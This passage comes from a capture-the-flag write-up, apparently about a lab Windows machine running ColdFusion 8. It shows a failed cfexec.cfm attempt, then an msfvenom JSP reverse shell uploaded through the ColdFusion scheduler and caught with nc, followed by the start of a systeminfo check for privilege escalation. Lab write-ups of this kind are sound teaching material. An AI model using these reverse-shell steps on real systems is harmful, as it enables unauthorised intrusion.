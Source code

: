 Finally the script is fetched

```
$ python -m http.server 80       
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.11 - - [07/Nov/2021 09:34:42] "GET /cfexec.cfm HTTP/1.1" 200 -
```

Switch to the browser and go to URL 10.10.10.11:8500/CFIDE/cfexec.cfm

To our sadness, this does not seem to work, maybe Coldfusion is running as such a user who cannot access eexecutables.

#### jsp reverse shell - works

Generate the reverse shell

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=5555 -f raw > ./shell.jsp     130 ⨯
Payload size: 1497 bytes
```

Upload the file using the scheduler as described above.

Start up a listener and fetch the URL http://10.10.10.11:8500/CFIDE/shell.jsp

```
$ nc -nvlp 5555      
listening on [any] 5555 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.11] 50609
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

c:\ColdFusion8\runtime\bin>dir c:\users\tolis\Desktop\user.txt
dir c:\users\tolis\Desktop\user.txt
 Volume in drive C has no label.
 Volume Serial Number is F88F-4EA5

 Directory of c:\users\tolis\Desktop

22/03/2017  09:01 ��                32 user.txt
               1 File(s)             32 bytes
               0 Dir(s)  33.193.676.800 bytes free
```

## Privilege escalation

Start with the systeminfo to see what are we dealing with.

```
:\ColdFusion8\runtime\bin>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          8/11/2021, 8:33:27 ��
```